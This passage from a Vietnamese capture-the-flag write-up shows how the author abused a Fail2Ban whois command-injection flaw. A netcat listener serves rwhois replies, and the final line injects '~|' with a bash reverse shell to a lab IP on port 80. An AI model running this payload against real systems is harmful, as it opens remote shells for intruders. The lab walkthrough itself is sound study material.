 ```console 
OrgName:        a
OrgId:          A-PG2
Address:        a
City:           a
StateProv:      a
PostalCode:     10169
Country:        a
RegDate:        2022-09-27 07:10:31 UTC
Updated:        2022-09-27 10:27:41 UTC
OrgAbuseEmail:  a@gmail.com

#
# ARIN WHOIS data and services are subject to the Terms of Use
# available at: https://www.arin.net/resources/registry/whois/tou/
#
# If you see inaccuracies in the results, please report at
# https://www.arin.net/resources/registry/whois/inaccuracy_reporting/
#
# Copyright 1997-2021, American Registry for Internet Numbers, Ltd.
#

Found a referral to 192.168.49.62.
```

Mỗi lần chạy `whois`, nó sẽ request đến port `4321`, vì thế, thử lại `whois` và `nc -lvnp 4321`:

![](https://i.imgur.com/yEyZ2Z6.png)

Ta thấy dòng `Testtt` có hiển thị ngược lại trong phần response của `whois`, ta có thể lợi dụng điểu này.

Thông qua [đây](https://github.com/fail2ban/fail2ban/security/advisories/GHSA-m985-3f3v-cwmm), tìm được các chạy câu lệnh thông qua `whois` bằng cách sử dụng `~!` hoặc `~|`

Nhưng có vẻ không được:

![](https://i.imgur.com/ScChvhN.png)

Có thể thấy ở bên `tcpdump` không hề nhận được gói tin `ICMP` nào.

Vậy còn `Fail2Ban`? Có thể thấy nó đang monitor SSH, nhưng nếu khi ta bị ban thì nó chạy cái gì?

Thực ra ở `/logs` ta sẽ thấy những thông tin được in ra khá giống với format của link trên, vậy có thể sau khi ban, Fail2Ban sẽ gửi một `rwhois` request đến IP của mình.

Thử lại một lần nữa:

![](https://i.imgur.com/OGw0jA3.png)

Như vậy ta đã tìm được cách để RCE:

```console 
$ echo "~| /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.49.62/80 0>&1'" | nc -lvnp 4321
```
